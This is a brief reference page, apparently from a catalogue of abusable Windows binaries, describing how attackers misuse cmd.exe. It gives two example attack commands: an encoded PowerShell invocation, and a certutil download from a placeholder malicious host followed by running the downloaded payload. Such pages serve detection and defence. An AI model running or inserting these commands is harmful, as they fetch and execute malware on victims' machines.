 # cmd.exe
## What is it?
*cmd.exe is the Windows Command Prompt.*

## How to abuse it
- *Executes malicious scripts and commands.*

# Example Attacks
```
cmd.exe /c "powershell -enc <base64>"

cmd.exe /q /c "certutil -urlcache -f http://malicious[.]site/payload.exe C:\temp\payload.exe & start C:\temp\payload.exe"
```
